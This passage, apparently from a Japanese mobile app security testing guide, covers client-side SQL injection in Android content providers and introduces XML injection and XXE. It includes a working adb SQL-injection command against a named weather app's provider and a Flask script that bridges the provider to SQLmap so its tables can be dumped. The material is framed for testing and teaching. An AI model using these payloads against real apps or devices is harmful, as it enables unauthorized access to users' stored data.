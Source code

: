 ```shell
$ adb shell content query --uri content://com.yahoo.mobile.client.android.weather.provider.Weather/locations/ --sort '_id/**/limit/**/\(select/**/1/**/from/**/sqlite_master/**/where/**/1=1\)'  

Row: 0 _id=1, woeid=2487956, isCurrentLocation=0, latitude=NULL, longitude=NULL, photoWoeid=NULL, city=NULL, state=NULL, stateAbbr=, country=NULL, countryAbbr=, timeZoneId=NULL, timeZoneAbbr=NULL, lastUpdatedTimeMillis=746034814, crc=1591594725

```

ペイロードは次の `_id/**/limit/**/\(select/**/1/**/from/**/sqlite_master\)` を使用することでさらに単純化できます。

この SQL インジェクション脆弱性はユーザーがまだアクセスしていない機密データを開示してはいません。この例は adb を使用して脆弱なコンテンツプロバイダをテストする方法を示しています。Ostorlab はこれをさらに引き継ぎ、SQLite クエリのウェブページインスタンスを作成し、SQLmap を実行してテーブルをダンプします。

```python
import subprocess
from flask import Flask, request

app = Flask(__name__)

URI = "com.yahoo.mobile.client.android.weather.provider.Weather/locations/"

@app.route("/")
def hello():

   method = request.values['method']
   sort = request.values['sort']
   sort = "_id/**/limit/**/(SELECT/**/1/**/FROM/**/sqlite_master/**/WHERE/**/1={})".format(sort)
   #sort = "_id/**/limit/**/({})".format(sort)

   p = subprocess.Popen(["adb","shell","content",method,"--uri","content://{}".format(URI),"--sort",'"{}"'.format(sort)],stdout=subprocess.PIPE,stderr=subprocess.STDOUT)

   o, e = p.communicate()

   print "[*]SORT:{}".format(sort)
   print "[*]OUTPUT:{}".format(o)
   return "<html><divclass='output'>{}</div></html>".format(o)

if __name__=="__main__":
   app.run()
```

Mark Woods は QNAP NAS ストレージアプライアンス上で動作する "Qnotes" および "Qget" Android アプリ内にクライアントサイドの SQL インジェクションのリアルワールドのインスタンスの一つを発見しました。これらのアプリは SQL インジェクションに脆弱なコンテンツプロバイダをエクスポートし、攻撃者が NAS デバイスの資格情報を取得できるようにしました。この問題の詳細な説明は [Nettitude Blog](https://blog.nettitude.com/uk/qnap-android-dont-provide "Nettitude Blog - QNAP Android: Don't Over Provide") にあります。

#### XML インジェクション

*XML インジェクション* 攻撃では、攻撃者は XML メタキャラクタを注入して XML コンテンツを構造的に変更します。これは XML ベースのアプリケーションやサービスのロジックを侵害するために使用される可能性があり、攻撃者がコンテンツを処理する XML パーサーの操作を悪用する可能性もあります。

この攻撃の一般的な変種には [XML Entity Injection (XXE)](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing) があります。ここでは、攻撃者が URI を含む外部エンティティ定義を入力 XML に注入します。解析時に、XML パーサーは URI で指定されたリソースにアクセスして攻撃者が定義したエンティティを展開します。解析アプリケーションの完全性により最終的に攻撃者にもたらす能力を決定します。悪意のあるユーザーが次の一部 (または全て) を行う可能性があります。ローカルファイルにアクセスしたり、任意のホストおよびポートへの HTTP リクエストをトリガしたり、[クロスサイトリクエストフォージェリ (CSRF)](https://goo.gl/UknMCj "Cross-Site Request Forgery (CSRF)") 攻撃を実行したり、サービス拒否状態を引き起こしたりします。OWASP ウェブテストガイドには [XXE の以下の例](https://goo.gl/QGQkEX "Testing for XML Injection (OTG-INPVAL-008)") があります。
